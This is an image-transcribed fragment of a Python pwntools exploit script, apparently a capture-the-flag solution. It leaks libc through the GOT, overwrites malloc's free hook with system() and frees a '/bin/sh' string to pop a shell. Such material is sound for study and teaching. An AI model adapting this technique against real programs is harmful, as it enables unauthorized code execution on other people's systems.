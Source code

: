 ```python
create()
elf.address = u32(ask(3)[:4]) - elf.symbols["print_question"]

# Fix up the question pointer to correctly point at the question
set_memory(heap_addr + 0x20)

if args.REMOTE:
    libc_base = read_memory(elf.got["puts"]) - 0x67b40
    system    = libc_base + 0x03d200
    free_hook = libc_base + 0x1d98d0
else:
    libc_base = read_memory(elf.got["puts"])- 0x67c10
    system    = libc_base + 0x3d250
    free_hook = libc_base + 0x1d98d0

# Overwrite the malloc free hook with a pointer to system(), so when the program attempts to free the question, instead call system() on the question
write_memory(free_hook, p32(system))
# Overwrite the question with a pointer to bin/sh, so instead of calling system() on the question, it calls system('bin/sh')
set(0, "/bin/sh\x00")

delete(0)

p.interactive()
p.close()
```